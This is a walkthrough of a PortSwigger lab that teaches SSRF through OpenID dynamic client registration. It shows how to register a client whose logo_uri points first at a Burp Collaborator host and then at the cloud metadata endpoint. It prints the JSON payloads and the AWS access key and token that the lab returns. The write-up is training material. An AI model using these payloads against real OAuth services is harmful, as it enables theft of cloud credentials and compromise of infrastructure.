

# SSRF via OpenID dynamic client registration

## This lab allows client applications to dynamically register themselves with the [OAuth](https://portswigger.net/web-security/oauth) service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the OAuth service, which exposes a potential vector for SSRF.

## To solve the lab, craft an [SSRF attack](https://portswigger.net/web-security/ssrf) to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the OAuth provider's cloud environment.

## You can log in to your own account using the following credentials: `wiener:peter`

##### Note: this lab need burpsuite pro

---

step 1

login to account and logout
then login again and see HTTP history


step 2
click on auth?client_id in HTTP history


step 3

##### Hint:


step 4

my outh url: `oauth-0a4700430308cd268131e6cd02ed00ac.oauth-server.net`
add` /.well-known/openid-configuration` at the end of url

```
https://oauth-0a4700430308cd268131e6cd02ed00ac.oauth-server.net/.well-known/openid-configuration
```

open this url into browser you will get json file with bunch on details search reg


you can see same result in burpsuite
and search registration_endpoint


now open /reg link
`https://oauth-0a4700430308cd268131e6cd02ed00ac.oauth-server.net/reg`


in burpsuite


step 5
send /reg to repeater change get request to post
send request you will get error only json supported


step 6
test with json
but again error but this time redirect_uri mandatory


step 7
add redirect_uris error because it must be in array format


step 8
add redirect_uris in array format
you will get 201 response


step 9

##### HINT:


---

step 10
find client with id and with logo
it will be HTTP history when first time webpage load


---

step 11

got to step 8
add logo_uri into json

```json
{
  "redirect_uris": ["https://example.com"]
}
```

use burp collaborator
`"logo_uri": "https://client-app.com/logo.png"`
change url with burp collaborator url
`"logo_uri": "z22ge24u498d6k8ho7kbnd9j0a61urig.oastify.com"`

```json
{
  "redirect_uris": ["https://example.com"],
  "logo_uri": "z22ge24u498d6k8ho7kbnd9j0a61urig.oastify.com"
}
```

add the above payload and send request you will get client id


---

step 12

use **\_\_\_\_**

step 10
replace client id with this client id send request



burp collaborator poll


---

step 13
go to /reg into repeater
add logo_uri : `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/`
final payload look like

```json
{
  "redirect_uris": ["https://example.com"],
  "logo_uri": "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}
```


---

step 14

got to /client into repeater
replace client id from **\_\_\_\_**

step 13


---

step 15

```json
{
  "Code": "Success",
  "LastUpdated": "2023-06-08T14:13:01.577025071Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ed6ZtIT2sQtcEBMadHym",
  "SecretAccessKey": "hhyXg2IbIKM4ksaOiLEsh2dIjg4BVeQaTpXyK3mW",
  "Token": "GEmC2Vk1YRCttuaokzEcF6cNvKdLrUgw2P4U4xtinAbK8a56Bm9USOa6Qo0a3cUaQUwBSX0NO5Dr2RCcB7EhMa9kuSLOnoEGBnFu7CJLDYY3BMGcblE3iTngdifFM0XjBce8MqZtCdm95E3oRiPnZvac09KUg2kxOCTwgUpQOpOLQE3UivyHtgJutlmRRN2yGYl0DhVotyiam7B6yN5tnqDd7rnxw9fMKMrM5VZzPNuo6nzfQo9blszLJeXRzYON",
  "Expiration": "2029-06-06T14:13:01.577025071Z"
}
```

submit SecretAccessKey: `hhyXg2IbIKM4ksaOiLEsh2dIjg4BVeQaTpXyK3mW`


